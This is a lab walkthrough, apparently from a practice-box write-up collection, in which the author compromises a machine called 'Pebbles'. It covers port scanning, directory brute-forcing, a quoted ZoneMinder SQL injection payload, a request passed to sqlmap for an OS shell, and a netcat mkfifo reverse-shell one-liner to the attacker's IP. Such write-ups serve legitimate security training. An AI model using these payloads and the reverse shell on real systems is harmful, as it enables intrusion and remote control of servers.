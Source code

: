 # Pebbles

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.52 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 11:01 +08
Nmap scan report for 192.168.157.52
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3305/tcp open  odette-ftp
8080/tcp open  http-proxy
```

FTP doesn't allow for anonymous connections.

### Web Enum -> SQL Shell

Port 80 shows a login page:

<figure><img src="../../../.gitbook/assets/image (495).png" alt=""><figcaption></figcaption></figure>

Default creds don't work, so I ran a `gobuster` scan while moving on. Port 3305 shows a default Apache page:

<figure><img src="../../../.gitbook/assets/image (496).png" alt=""><figcaption></figcaption></figure>

Ran a `gobuster` scan on this too while enumerating port 8080, which had Tomcat.

<figure><img src="../../../.gitbook/assets/image (3426).png" alt=""><figcaption></figcaption></figure>

Again we have no credentials. The `gobuster` scan revealed there was ZoneMinder on both ports:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.157.52/ -t 100       
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.157.52/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/16 11:03:22 Starting gobuster in directory enumeration mode
===============================================================
/zm                   (Status: 301) [Size: 320] [-> http://192.168.157.52/zm/]
```

<figure><img src="../../../.gitbook/assets/image (1048).png" alt=""><figcaption></figcaption></figure>

This version had an SQL Injection exploit:

```
$ searchsploit zoneminder
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ZoneMinder 1.24.3 - Remote File Inclusion                  | php/webapps/17593.txt
Zoneminder 1.29/1.30 - Cross-Site Scripting / SQL Injectio | php/webapps/41239.txt
ZoneMinder 1.32.3 - Cross-Site Scripting                   | php/webapps/47060.txt
ZoneMinder Video Server - packageControl Command Execution | unix/remote/24310.rb
----------------------------------------------------------- ---------------------------------
```

Here's the exploit:

```
2)SQL Injection
Example Url:http://192.168.241.131/zm/index.php
Parameter: limit (POST)
    Type: stacked queries
    Title: MySQL > 5.0.11 stacked queries (SELECT - comment)
    Payload: view=request&request=log&task=query&limit=100;(SELECT *
FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
Easy exploitable using sqlmap.
```

I proxied the request using Burp and passed it to `sqlmap` with the `--os-shell` flag.&#x20;

```http
POST /zm/index.php HTTP/1.1
Host: 192.168.157.52
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-Request: JSON
Content-type: application/x-www-form-urlencoded; charset=utf-8
Content-Length: 223
Origin: http://192.168.157.52:3305
Connection: close
Referer: http://192.168.157.52:3305/zm/
Cookie: zmSkin=classic; zmCSS=classic; ZMSESSID=ka9o8an3bglpu52fkcghrjvhd6

view=request&request=log&task=query&limit=100&minTime=1466674406.084434
```

This found the `limit` variable to be vulnerable to SQL Injection and I got a webshell as `root`. We can then get a reverse shell easily after choosing the **64-bit database management option**.

```
os-shell> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.196 3305 >/tmp/f
```

<figure><img src="../../../.gitbook/assets/image (2997).png" alt=""><figcaption></figcaption></figure>
